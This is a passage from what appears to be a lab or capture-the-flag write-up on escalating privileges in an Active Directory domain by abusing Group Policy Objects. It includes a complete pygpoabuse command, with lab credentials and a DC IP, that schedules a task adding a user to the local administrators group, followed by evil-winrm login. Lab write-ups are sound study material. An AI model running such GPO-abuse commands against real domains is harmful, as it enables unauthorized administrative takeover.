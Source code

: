 Let's figure out first the GPOs that we can abuse, we can either look that up in the bloodhound or by using the [gpoowned](https://github.com/X-C3LL/GPOwned) tool.

![](/assets/images/Pasted image 20231231111744.png)


Then we can craft our command to abuse the scheduled tasks

```
$ pygpoabuse baby2.vl/gpoadm:'Password123!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -dc-ip 10.10.78.135 -v -command 'net localgroup administrators GPOADM /add'
```

And we should be able to log in as the user `gpoadm` using `evil-winrm`
![](/assets/images/Pasted image 20231231112727.png)